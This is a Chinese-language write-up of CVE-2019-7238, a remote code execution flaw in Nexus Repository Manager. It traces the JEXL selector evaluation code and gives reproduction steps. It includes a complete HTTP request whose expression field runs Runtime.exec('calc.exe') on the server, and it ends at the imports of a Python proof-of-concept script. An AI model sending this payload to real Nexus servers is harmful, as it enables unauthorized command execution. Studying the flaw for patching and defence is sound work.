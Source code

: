     @Override
      @Guarded(by = STARTED)
      public boolean evaluate(final SelectorConfiguration selectorConfiguration, final VariableSource variableSource)
          throws SelectorEvaluationException
      {
        // 根据传入的 selectorConfiguration 生成对应的 selector 
        // 前面指定了 JexlSelector.TYPE ，这里将生成 JexlSelector
        Selector selector = createSelector(selectorConfiguration);

        try {
          // 调用 selector 的 evaluate 方法
          return selector.evaluate(variableSource);
        }
        catch (Exception e) {
          throw new SelectorEvaluationException("Selector '" + selectorConfiguration.getName() + "' evaluation in error",
              e);
        }
      }

### 漏洞复现

参考官方文档：https://help.sonatype.com/repomanager3/configuration/repository-management\#RepositoryManagement-CreatingaQuery

其对应接口位置如下图![3.jpeg](resource/(CVE-2019-7238)NexusRepositoryManager远程代码执行/media/rId26.jpg)如果是新搭建的环境，为复现成功，还需要先往现有的Repository添加asset。这样在查询确实存在asset后，才会进一步根据`whereClause`对查询结果asset进行筛选，也才会对`whereClause`进行表达式解析。不过在实际环境中，Repository中早就各种asset了。下面随便选了一个logging.jar上传。![4.jpeg](resource/(CVE-2019-7238)NexusRepositoryManager远程代码执行/media/rId27.jpg)

    POST /service/extdirect HTTP/1.1
    Host:www.0-sec.org:8081
    User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:64.0) Gecko/20100101 Firefox/64.0
    Content-Type: application/json
    Content-Length: 308
    Connection: close

    {"action":"coreui_Component","method":"previewAssets","data":[{"page":1,"start":0,"limit":25,"filter":[{"property":"repositoryName","value":"*"},{"property":"expression","value":"''.class.forName('java.lang.Runtime').getRuntime().exec('calc.exe')"},{"property":"type","value":"jexl"}]}],"type":"rpc","tid":4}

![1.png](resource/(CVE-2019-7238)NexusRepositoryManager远程代码执行/media/rId28.png)

### poc

    cve-2019-7238.py

![2.png](resource/(CVE-2019-7238)NexusRepositoryManager远程代码执行/media/rId30.png)

    from requests.packages.urllib3.exceptions import InsecureRequestWarning
    import urllib3
    import requests
    import base64
    import json
    import sys
